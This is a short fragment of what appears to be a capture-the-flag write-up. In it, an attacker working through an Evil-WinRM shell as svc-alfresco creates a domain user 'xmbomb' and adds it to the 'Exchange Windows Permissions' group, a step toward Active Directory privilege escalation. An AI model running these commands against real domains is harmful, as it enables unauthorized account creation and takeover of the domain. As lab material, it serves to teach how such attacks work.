 
![](2021-01-15-10-45-23.png)

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user xmbomb password123 /add /domain
The command completed successfully.


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
The command completed successfully.


net group "Exchange Windows Permissions" /add xmbomb
